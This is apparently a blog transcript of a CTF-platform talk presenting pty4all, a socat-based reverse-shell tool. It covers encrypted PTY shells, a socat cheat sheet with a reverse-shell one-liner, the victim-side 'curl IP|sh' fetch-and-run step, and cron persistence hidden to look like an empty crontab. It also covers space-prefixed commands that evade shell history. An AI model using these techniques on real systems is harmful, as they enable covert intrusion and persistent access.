










This article is the transcript of a talk (FR) I gave at the opening of the CTF platform TheBlackSide on 29th January 2022.

https://github.com/laluka/pty4all



---




Hi there, long time no see! :)

I hope you like tooling, bash scripting, and uber-duper shells, because we're going to `enhance the sad shells we had to happy automated multiplexed encrypted fully interactive PTYs with push notification and automatic persistency`!

Hyped? I hope so. Lessgo! 


# 1. Types of shells

Why are we doing this anyway? Where do shells come from? What are they?

Basically, there are two big families of shells, and many small enhancements (Yes, I'll omit webshells for now). 

The (arbitrary) first type of shell is the bind shell, when your newly spawned bash/sh/dash/zsh/*sh process waits for your connection on the remote host. Given there are no network restrictions, the attacker can then connect its input/output to the remote process input/output and use this tunnel to supply commands and read their outputs.

This is nice, for sure, but it has a few inherent drawbacks. It needs to bind to a port, be reachable from the outer world (also named `the fucking internet`), and if you need to use ports below 1000 it needs a special bind privilege or to be run as root. It's ok for CTF tasks but in real life, it's hardly usable on any real targets because of network filtering. This is basically opening a world-accessible backdoor on your target. Meh. 



The second type of shell is a reverse shell. Now, the attacker will open a listener on their machine, and force the targeted server to both spawn a new bash (omitting variants) process and connect it with magical pipes to the attacker listener.  

It's much better, the production server isn't cracked open on the internet anymore! But for the reverse shell to work, it requires an allowed egress port (outgoing connections) from the remote server, which might be an issue on hardened servers or networks. 



In addition to all the issues mentioned previously, there are a few more that concern both types but can be improved, here's a non-exhaustive list: 

- Plaintext exchanges, so easily detected
- Not password protected, exposes production to the internet jungle
- Won't handle signals by default and will break on Ctrl^C
- Can only handle one simultaneous connection
- No notification on spawned shell
- Etc, etc, etc. 

All these issues do have their own mitigation, but more features means more dependencies, more bugs, more chances of being detected, ...

Here's one minimalistic example that shows how to tackle one issue, encryption. The reverse shell can be built this way. A bash process that encodes its output and decodes its input with a specified encryption type with let's say openssl, and then communicates with the attacker using the bash `/dev/tcp/IP/PORT` builtin feature. On the attacker side, netcat can be used to listen, and openssl to encrypt the commands, and decrypt the results. 

It's one simple example that has MANY variants, just illustrating, y'know..

But it's still a basic shell, not providing much convenience. It's just some more commands, some more features. 



Now let's introduce one of my favorite tools, which I `really` wish I had known about earlier in my life. It's like a friend, just a bit less talkative. 


# 2. Why I ❤️ Socat

Socat can do MANY things for us, here are some of them:

```bash
curl cheat.sh/socat

---
tags [ networking ]
---
# socat connect to http-server (port 80 on 'butzel.info')
socat TCP4:butzel.info:80 -

# connect to https-server (port 443 on 'butzel.info' with tls)
socat openssl:butzel.info:443 -

# tcp-listener (port 3180), output as hexdump (-x) and fork for new connetions
socat -x tcp-listen:3180,fork -

# practical examples:

# complete real working http-example:  
#  (sleep is necessary to prevent socat closing socket before data received)
(echo -e "GET / HTTP/1.1\r\nHost: butzel.info\r\n\r" && sleep 1) \ 
| socat tcp4:butzel.info:80 -

# http to httpS 'Proxy' (for an webserver without TLS-Support)
socat OPENSSL-LISTEN:443,reuseaddr,pf=ip4,fork,cert=server.pem,cafile=client.crt,verify=0 TCP4-CONNECT:127.0.0.1:80

# port forwarding (e.g. own port 3180 to port 22(ssh) on target
socat TCP4-LISTEN:3180,reuseaddr,fork TCP4:butzel.info:ssh

# TOR-forwarding (needs tor-daemon on port 9050 running)
socat tcp4-listen:8080,reuseaddr,fork socks4A:127.0.0.1:t0rhidd3ns3rvice.onion:80,socksport=9050

# network (port 8266) to serial bridge (/dev/ttyUSB0 baudrate: 115200)
socat TCP4-LISTEN:8266,fork,reuseaddr /dev/ttyUSB0,raw,crnl,b115200

# udp to tcp
socat -u udp-recvfrom:1234,fork tcp:localhost:4321

# reverse shell:
socat exec:'bash -i',pty,stderr tcp:remote.butzel.info:3180

# listener for above reverse shell (on remote.butzel.info):
socat file:`tty`,raw,echo=0 tcp-listen:3180
# or: nc -lp 3180

 tldr:socat 
# socat
# Multipurpose relay (SOcket CAT).

# Listen to a port, wait for an incoming connection and transfer data to STDIO:
socat - TCP-LISTEN:8080,fork

# Create a connection to a host and port, transfer data in STDIO to connected host:
socat - TCP4:www.example.com:80

# Forward incoming data of a local port to another host and port:
socat TCP-LISTEN:80,fork TCP4:www.example.com:80
```

It's convenient, but how can these features help us for our uber-duper shell?

- It can allocate a PTY on both remote and attacking side, this means proper signal handling, autocompletion, ctrl^C, sudo interactions, resizing, inline editing (vim, htop, nano, ...)
- It can encrypt with various protocols, including TLS which is less flagged than typical RC4 or AES encryption for malwares
- It can use UNIX sockets, so can easily be scripted and used with crazy bash kung-fu one-liners of D00M (damn I love bash kung-fu..)
- It can be statically compiled and cross compiled, implying it can virtually be used on any kind of remote target
- It's really simple to use, even more with cheat.sh in your toolbox, even moooore if you spend time in the man :)
- Last but not least, it contains the word `cat` in its name like netcat, or ncat, so it's a decent choice. For sure. 



Here's a minimalistic example for a listener and a reverse shell one-liner. This is all you need to have a fully interactive PTY. Convenient, isn't it?



As said earlier, it can be easily cross-compiled, but you know what? You don't even have to cross-compile it as the [minos-static](https://github.com/minos-org/minos-static) project provides premade static-build scripts and binaries! Just run `static-get -x socat` and WOOSH, you're good to go!




# 3. Features of pty4all

Now that we have all the cards (tools) in our hand, let's complete the puzzle and create our purrfect reverse shell!

I won't go through all the code as it's now open-source on github, but here is the main concept:

1. The attacker starts a `tmux` session on their server, to be able to keep the listener open even if they disconnect. This works due to the daemon-based persistency tmux offers (one of my favorite feature for long-running tasks on vps)
1. Then, they run `socat-multi-handler.sh` with the appropriate arguments to listen on the specified port and ip address. 
1. Under the hood, this script will:
    1. Generate a TLS certificate and key for the socat pty handler.
    1. Serve over HTTP (on its default path) a second script that will be executed by the remote target in-memory. This second script will download a static socat from the attacker server, and connect to the attacker listener over TLS.
1. Once this encrypted connection has been established, it'll then forward the connection to a UNIX socket that will hold the connection, and make the listener available again for new shells. 

There were two other features that I also needed (and thus added) which are:

- A push notification with `discord webhooks`, it's a simple curl so yes, it could be stealthier :)
- An automatic persistency payload that will use a trick with a comment and a "line-clearer" character to mimic an empty crontab. The newly added crontask will check every minute if the reverse shell is up, and spawn a new one if it died.
- No history should be logged as these commands are ran with prefixed spaces, which is a behavior that prevents standard shells from logging the issued commands

That's it. We're done. Now, all the victim needs to execute is `curl IP|sh` and we're all set, feels like home ! ❤️❤️❤️





# 4. Demo

All the words I can write are not worth a demo, so here it is. 




# 5. Future improvements

Just like for every software, it'll probably never be "finished", there's a lot of room for improvements. A few things are in mind for now:

- Support more architectures, x86, windows, arm, ... Maybe with a golang (cross-compiles and obfuscated easily) client instead of socat on the victim-side?
- Host the payload with http AND https, but this would force us to use a longer payload, as curl uses http by default, thus requiring something like `curl https://IP:PORT|sh`. It's still ok but contains more badchars (colon and forward slashes)... Encryption has a success-rate cost :(
- Add more push-notification methods / services
- Add more persistancy options, like nohup, a while loop, process injection, and so on. 

> Side note, if you wonder why I write down the text that's already in the slides, it's for some blind folks out-there and text-to-speech users that like to listen to articles instead of reading them. You're not a lot, but you're more than welcome here! ;)



Annnd that's it for today!

Thanks for reading, and/or listening if you were there for the talk!

Now go on TheBlackSide, and for every pty you spawn, share this tool to someone new (hehe)! ;)

https://github.com/laluka/pty4all

